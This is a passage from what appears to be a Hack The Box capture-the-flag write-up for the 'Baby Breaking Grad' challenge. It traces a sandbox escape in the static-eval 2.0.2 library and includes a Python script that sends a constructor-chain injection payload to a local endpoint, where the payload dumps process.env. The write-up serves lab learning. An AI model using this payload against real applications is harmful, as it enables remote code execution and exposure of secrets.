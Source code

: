 ![getting 'passed' using default formula](/images/htb/owasp-top-10/baby-breaking-grad/2_getting-pass-using-default-formula.png)

Then, using a specified formula:

![getting 'passed' using specified formula](/images/htb/owasp-top-10/baby-breaking-grad/3_getting-passed-using-specified-formula.png)

Now we need to think about how to exploit the system to read the contents of `flag`. Looking at `package.json`, we see that the version of `static-eval` used is 2.0.2. Doing a quick google search reveals that there are no known CVEs for this version, but I found a [withdrawn CVE](https://vulners.com/github/GHSA-8V27-2FG9-7H62) which was withdrawn for being deemed not a security vulnerability. Similarly, there are no known vulnerabilities in any version of esprima. Nevertheless, `hasPassed` is still the most likely point to inject code.

After failing to make any progress for a few hours, I looked at [a walkthrough](https://braincoke.fr/write-up/hack-the-box/baby-breaking-grad/) to get a clue. The author directed me to the past [GitHub commits for `static-eval`](https://github.com/browserify/static-eval/commits/master/) (post version 2.0.2). Digging through the commit history leads to the discovery of [this issue](https://github.com/browserify/static-eval/pull/27) which was discovered after version 2.0.2 launched but patched before 2.0.3 released. There is also [a commit](https://github.com/browserify/static-eval/pull/27/commits/6b7b9609d770948ec9e8a8dedeee5e55891459a3) with some test cases to verify that the issue has been fixed.

I used the code in the test script to build an exploit for `static-eval` 2.0.2. The first task was to figure out how to properly format the payload in the request. I wrote the following python script:

```python
import requests
from html import escape

url = "http://127.0.0.1:1337/api/calculate"
injection = '(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.env)")()' # from github commit
payload = {
    "name" : "johndoe",
    "exam": 4,
    "paper": 4,
    "assignment": injection,
    "formula": "assignment"
    }
r = requests.post(url, json=payload)
print(r.text)
```

I ran the code and didn't get any error messages, just a message saying that the student didn't pass. So far so good. Moving forward, I wanted to be able to see what the result of `static-eval` was for easier debugging so I modified `hasPassed` in `StudentHelper.js` to `return weight`, and lines 28-30 of `routes/index.js` to:

```javascript
return res.send({
  pass: StudentHelper.hasPassed(student, formula),
});
```
